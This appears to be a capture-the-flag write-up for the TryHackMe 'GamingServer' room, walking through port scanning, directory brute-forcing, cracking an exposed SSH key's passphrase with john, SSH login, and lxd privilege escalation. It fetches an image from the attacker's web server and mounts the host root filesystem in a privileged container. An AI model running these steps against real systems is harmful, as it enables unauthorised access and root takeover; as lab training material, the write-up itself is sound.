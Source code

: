 ```yaml
---
layout: post
title:  "GamingServer tryhackme room writeup"
date:   2020-07-23 21:03:36 +0530
categories: CTF Writeups
---
```

# GamingServer
writeup of the room GamingServer in TryHackMe

first start by doing a port scan

```bash
rustscan $IP
```
results:
```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
then start start dirbuster or gobuster to search for hidden files

```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
you will then find an interesting folder called "/secret" 

![](https://i.imgur.com/dvouO8n.png)

that contains a ssh key, download it

after you downloaded that key create a new hash file using ssh2john
```python
python ssh2john.py SecretKey > id_rsa.hash
```
and then crack it using john and rockyou wordlist
```python
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
results
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
1g 0:00:00:12 DONE (2020-08-30 22:24) 0.08278g/s 1187Kp/s 1187Kc/s 1187KC/s *7¡Vamos!
Session completed
```
then i found a user that can be used for a ssh connection on the website source code

in the bottom line of : https://$IP/index.html

![](https://i.imgur.com/AkvBtg2.png)

as you can see there is a user called john

connect to the server throught ssh
```bash
ssh john@$IP -i ./SecretKey
```
enter the passphrase and you logged in as john

![](https://i.imgur.com/fvRhWhv.png)

now get the user flag
```bash
cat user.txt
a****************e
```
after searching and looking in the machine i found an interesting service called lxd(Linux Containers) owned by root and that can be used by anyone,

locally clone that repo and run the other commands
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
then start a simple web server
```bash
python -m SimpleHTTPServer
```
then download the files you just downloaded locally
```bash
cd /tmp
wget http://$LHOST:8000/alpine-v3.12-x86_64-20200830_2354.tar.gz
```
replace $LHOST with your local ip address (run "ip addr" to see it)

import the image by running: 
```bash
lxc image import ./alpine-v3.12-x86_64-20200830_2354.tar.gz --alias myimage
```
then spawn a root shell by running this list of commands
```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
whoami
```
now get the root flag 
```bash
cat mnt/root/root/flag.txt
2************c
```
if you don't get your root shell or it's not working try following this [guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for privilege escalation about lxd
